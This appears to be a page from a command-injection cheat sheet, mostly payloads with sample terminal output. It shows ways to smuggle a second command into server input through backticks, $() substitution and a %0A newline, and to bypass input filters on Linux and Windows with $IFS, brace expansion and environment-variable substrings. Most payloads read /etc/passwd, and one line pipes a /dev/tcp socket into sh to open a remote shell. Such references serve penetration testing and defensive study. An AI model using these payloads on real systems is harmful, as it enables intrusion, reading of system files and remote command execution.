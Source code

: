 ### **Inside a command** ###

```
original_cmd_by_server `cat /etc/passwd`
original_cmd_by_server $(cat /etc/passwd)
```

### **Filter Bypasses** ###

### **Bypass without space** ###

#### **Works on Linux only.** ###

```
swissky@crashlab:~/Www$ cat</etc/passwd
root:x:0:0:root:/root:/bin/bash

swissky@crashlab▸ ~ ▸ $ {cat,/etc/passwd}
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ cat$IFS/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ echo${IFS}"RCE"${IFS}&&cat${IFS}/etc/passwd
RCE
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ X=$'uname\x20-a'&&$X
Linux crashlab 4.4.X-XX-generic #72-Ubuntu

swissky@crashlab▸ ~ ▸ $ sh</dev/tcp/127.0.0.1/4242
```

#### **Commands execution without spaces, $ or { } - Linux (Bash only)** ####

```
IFS=,;`cat<<<uname,-a`
```

#### **Works on Windows only.** ####

```
ping%CommonProgramFiles:~10,-18%IP
ping%PROGRAMFILES:~10,-5%IP
```

### **Bypass with a line return** ###

```
something%0Acat%20/etc/passwd
```
